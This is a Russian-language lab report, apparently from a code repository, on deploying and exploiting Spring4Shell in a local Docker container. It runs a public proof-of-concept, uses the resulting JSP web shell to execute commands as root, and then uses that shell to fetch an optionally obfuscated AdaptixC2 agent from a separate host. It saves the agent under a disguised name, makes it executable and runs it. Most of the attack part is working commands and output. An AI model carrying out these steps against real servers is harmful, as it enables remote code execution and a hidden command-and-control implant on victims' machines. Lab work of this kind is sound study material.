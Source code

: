 # Отчет об развертывании и эксплуатации уязвимости spring4shell

## Описание уязвимости
Уязвимость доступна при следующей комбинации:
* JDK 9 или старше
* Apache tomcat
* Spring до 5.2.19
* spring-webmvc
* Формат WAR(Web Application Resource) вместо стандартного JAR
Где:
* Spring - популярный веб фреймворк на java
* apache tomcat - веб сервер для приложений на java
* war-файл - собранное приложение на java
* spring-webmvc - зависимость java spring. Фреймворк для разработки restful веб
  приложений.



## Развертывание
Загрузка Proof of Concept репозитория и сборка уязвимого окружения с помощью
docker.

```sh
git clone https://github.com/TheK4n/Spring4Shell-POC
cd Spring4Shell-POC
docker build -t vulnerable-tomcat vulnerable-tomcat/
docker run --rm -d --name vulnerable-tomcat -p 8080:8080 vulnerable-tomcat
```


## Эксплуатация
Запуск скрипта
```sh
python3 -m venv venv
. ./venv/bin/activate
pip install -r requirements.txt
python3 ./poc.py --url http://localhost:8080/spring-form/greeting
```
Должно появиться сообщение вида:

    Vulnerable，shell url: http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami


Для проверки ввести команду:
```sh
curl --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami'
```
Появится сообщение вида:

    root

    //
    ...


`root` указывает на имя пользователя, под которым запущен уязвимый фреймворк.
Далее можно ввести в http параметр cmd любую команду, которая будет исполнена в
уязвимой среде:
```sh
# команда просмотра корневой директории хост машины уязвимого фреймворка
curl --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=ls+/'
```

    bin
    boot
    dev
    etc
    home
    lib
    lib64
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var

    //
    ...


### Постэксплуатация с использованием AdaptixC2
1. Генерация агента Gopher под linux
2. Опциональная обфускация агента (например сжатие с помощью upx)
3. Создание веб сервера на хосте adaptix для пересылки агента на целевую
   машину, например след командой:
```sh
# в директории с агентом
python3 -m http.server 8000
```
4. Эксплуатируя уязвимость скачать агента на целевую машину, например с помощью
   curl:
```sh
curl --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=curl+192.168.50.10:8000/agent.bin+-o+/usr/bin/spring-helper'
```
5. Добавить бит исполняемости для агента:
```sh
curl --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=chmod+755+/usr/bin/spring-helper'
```
6. Запустить агент
```sh
curl --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=/usr/bin/spring-helper'
```
